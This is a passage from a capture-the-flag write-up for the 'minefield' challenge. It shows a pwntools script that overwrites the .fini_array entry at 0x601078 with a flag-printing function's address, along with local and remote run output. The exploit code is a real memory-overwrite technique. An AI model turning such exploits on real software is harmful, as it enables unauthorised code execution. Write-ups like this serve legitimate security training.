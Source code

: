 So It's mean we need to send second input ```0x40096b``` - the address ```_``` function, and first input ```0x601078``` - the address to we want to overwrite.

We can do it by the following python code:
```python
from pwn import *

p = process('./minefield')
#gdb.attach(p)
print(p.recv().decode('utf-8'))
p.sendline("2") 

print(p.recv().decode('utf-8'))
print("Sending address of .fini_array: 0x601078...")
p.send('0x601078')
print(p.recv().decode('utf-8'))

print("Sending address of _ function: 0x40096b...")
p.send('0x40096b')
p.interactive()

```

Run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ echo "CHTB{TEST_FLAG}" > flag       # We know _ function make "cat flag*".
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ python mine.py
[+] Starting local process './minefield': pid 1071153
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 
We are ready to proceed then!
Insert type of mine: 
Sending address of .fini_array: 0x601078...
Insert location to plant: 
Sending address of _ function: 0x40096b...
[*] Switching to interactive mode
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{TEST_FLAG}
[*] Got EOF while reading in interactive
$  

```

And we got the flag.

Now, Let's start the challenge docker and change the python code from ```p = process('./minefield')``` to ```p = remote('165.227.231.249', '31817')```, run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ python mine.py
[+] Opening connection to 165.227.231.249 on port 31817: Done
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 
We are ready to proceed then!

Sending address of .fini_array: 0x601078...
Insert type of mine: 
Sending address of _ function: 0x40096b...
```